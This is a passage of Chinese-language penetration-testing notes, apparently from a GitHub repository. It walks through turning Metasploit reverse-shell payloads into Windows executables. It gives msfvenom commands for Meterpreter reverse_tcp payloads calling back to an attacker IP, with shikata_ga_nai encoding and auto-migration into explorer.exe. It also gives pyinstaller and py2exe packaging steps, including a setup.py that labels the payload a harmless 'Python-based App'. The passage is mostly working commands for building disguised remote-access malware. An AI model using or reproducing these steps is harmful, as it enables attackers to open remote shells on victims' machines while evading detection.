   #### pyinstaller加载py代码编译(*)
	生成py格式payload
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
	>msfvenom -p windows/meterpreter/reverse_tcp LPORT=12138 LHOST=192.168.0.108 -e x86/shikata_ga_nai -i 11 -f py -o /var/www/html/1.py
	粘贴shellcode到shellcode+py.py中，在32位系统上安装python、py2exe、pyinstaller进入C:\Python27\Scripts目录使用命令把py打包为exe
	>python pyinstaller-script.py --console --onefile shellcode.py
	会在目录下生成dist文件夹，exe文件就在里面
	
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/60.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/61.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/62.png)
  #### Py2exe打包exe
	生成raw格式payload
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
	>msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f raw -o /var/www/html/shell.py
	在32位系统上安装python、py2exe
	创建setup.py放置同一目录
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/63.png)

	from distutils.core import setup
	import py2exe
	setup(
	name = "Meter",
	description = "Python-based App",
	version = "1.0",
	console = ["shell.py"],
	options = {"py2exe":{"bundle_files":1,"packages":"ctypes","includes":"base64,sys,socket,struct,time,code,platform,getpass,shutil",}},
	zipfile = None
	)
	执行打包命令
	>python setup.py py2exe
	会在当前目录生成dist文件夹，打包好的exe在里面
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/64.png)